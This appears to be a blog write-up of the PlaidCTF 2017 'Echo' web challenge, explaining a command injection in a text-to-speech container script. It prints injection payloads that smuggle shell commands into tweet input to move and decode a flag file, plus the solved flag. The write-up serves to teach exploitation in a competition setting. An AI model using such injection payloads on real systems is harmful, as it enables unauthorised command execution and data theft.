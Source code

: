 ```yaml
---
layout: post
title: "PlaidCTF 2017 - Echo"
category: writeups
author: thezero
tags: plaidctf-2017 web
---
```


Web - 200 Points

If you hear enough, you may hear the whispers of a key...
If you see app.py well enough, you will notice the UI sucks...

[http://echo.chal.pwning.xxx:9977/](http://echo.chal.pwning.xxx:9977/)

### Writeup

The server executes a text-to-speech software on 4 user-provided tweets and lets you listen to the wav output files.  
The text-to-speech process is executed in a docker image called [lumjjb/echo_container](https://hub.docker.com/r/lumjjb/echo_container/)  
Inside the docker container, the file [run.py](https://gist.github.com/TheZ3ro/a83a05a3a6d3a8cd967ec325f276470a) performs the text-to-speech (TTS).
The tweets are written to a file `input`. The server saves the `flag` file, which contains the encrypted flag, in the same folder.
This folder is then shared with the docker TTS container.

In line 30 of `run.py` file there is a command execution vulnerability through the variable `l`

We can move the flag file to a wav file in the `out` folder with this payload  
`";mv /share/flag "/share/out/1.wav`.  
After the TTS step, the wav files are converted with ffmpeg and the conversion output is stored in the folder served by the webserver. 
Unfortunately when the flag file (txt) is moved to a wav, ffmpeg returns an error and no file is stored as output.

So we thought it would be nice to read the flag file directly with the TTS, but the server returned a 500 error.  
The flag file has lots of unpronounceable characters, and it is **2470000** chars long, *65000* for every character in the flag, so the flag is actually **38** chars long.

So can write a small payload that decrypts the flag on the docker, let the server process the flag as TTS, convert the wav and then we would listen to the flag.  
Since the TTS wasn't good we splitted the flag text into single char converted to decimal.

This is our python payload, too long to fit in 4 tweets:
{% highlight python %}
def decode_flag(f):
    for i in range(0, len(f),65000):
        if i+64999 > len(f):
            break
        fs=f[i:i+64999]
        c=f[i+64999]
        p=0
        for k in fs:
           p=p^ord(k)
{% endhighlight %}

We minified it to fit in one tweet ^.^
```
`od -v -w1 -An -t uC /share/flag | perl -e 'my $i=0;my $x=0;while(<>){ $i++;$x^=$_; if($i==65000){$i=0;print $x." "; $x=0;}  };'`
```

And the flag!
`80 67 84 71 123 76 49 53 115 116 51 110 95 84 48 95 95 114 101 101 101 95 114 101 101 101 101 101 101 95 114 101 101 101 95 108 97 125`

Ops, Sorry! 
The Flag:
`PCTF{L15st3n_T0__reee_reeeeee_reee_la}`

